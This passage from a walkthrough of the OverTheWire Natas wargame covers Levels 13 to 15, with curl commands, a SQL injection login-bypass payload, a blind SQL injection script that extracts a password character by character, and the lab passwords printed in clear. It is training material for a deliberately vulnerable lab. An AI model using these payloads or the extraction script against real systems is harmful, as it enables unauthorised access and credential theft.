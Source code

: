 ```
The file <a href="upload/6xyuj68rtk.php">upload/6xyuj68rtk.php</a> has been uploaded
```

```
$ curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY http://natas13.natas.labs.overthewire.org/upload/6xyuj68rtk.php
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

# 15. Level 14

Simple SQL injection.

```
$ curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 http://natas14.natas.labs.overthewire.org/?debug -F 'username=ving' -F 'password=" or "0" = "0'
```

```
Executing query: SELECT * from users where username="ving" and password="" or "0" = "0"
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

# 16. Level 15

This level will not give us the password, but we can guess it using SQL injection.

```
$ curl -u natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J http://natas15.natas.labs.overthewire.org/?debug -F 'username=natas16" and password like binary "W%'
```

```
Executing query: SELECT * from users where username="natas16" and password like binary "W%"
This user exists.
```

Note that `like binary` is case sensitive.

Now we know the first character in password is `W`.

Search for the password.

```python
#!/usr/bin/env python3
import requests

chars = [chr(i) for i in range(ord("a"),ord("z")+1)] +\
        [chr(i) for i in range(ord("A"),ord("Z")+1)] +\
        [chr(i) for i in range(ord("0"),ord("9")+1)]
password = ''
for i in range(32):
    for ch in chars:
        data = {'username': 'natas16" and password like binary "' + password + ch + '%'}
        auth = ('natas15','AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')
        if 'This user exists' in requests.post('http://natas15.natas.labs.overthewire.org/?debug', auth = auth, data = data).text:
            password += ch
            print(password)
            break
```
